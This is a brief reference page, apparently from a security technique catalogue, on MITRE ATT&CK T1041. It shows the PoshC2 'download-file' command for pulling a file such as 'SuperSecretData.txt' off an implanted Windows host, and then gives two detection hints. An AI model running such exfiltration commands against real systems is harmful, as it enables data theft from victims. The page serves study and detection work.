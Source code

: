 # [Exfiltration Over Command and Control Channel](https://attack.mitre.org/techniques/T1041/)

## **Exploit Description:** 

Download command in PoshC2

## **Exploit syntax:**

* Download file directly from implant
```powershell
download-file <file path> 
Example: download-file 'C:\\Users\\Public\\SuperSecretData.txt'
```

## **Detection Technique:**
* Investigate powershell with the “download” command.
* Investigate increased data transfer external to the network during a network connection.
